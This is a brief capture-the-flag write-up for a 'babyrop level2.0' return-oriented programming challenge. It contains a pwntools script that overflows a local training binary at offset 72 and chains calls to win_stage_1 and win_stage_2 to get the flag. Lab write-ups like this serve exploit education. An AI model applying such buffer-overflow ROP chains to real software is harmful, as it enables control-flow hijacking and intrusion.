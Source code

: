 # Return Oriented Programming 2.0

Running the provided executable file, we are provided with the offset (72) and are tasked to jump to `win_stage_1`  then `win_stage_2`. We can use the `rop` function from `pwn` to simplify the payload.

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level2.0")

io = process()

print("===== STARTING EXPLOIT =====")

offset = 72

rop = ROP(elf)
rop.raw(b'A' * offset)
rop.win_stage_1()
rop.win_stage_2()

io.sendline(rop.chain())

io.recvuntil(b'Leaving!\n')
print(f'Flag: {io.recvline(False)}')
```

Flag:

![[Return Oriented Programming/images/Level2.0.png]]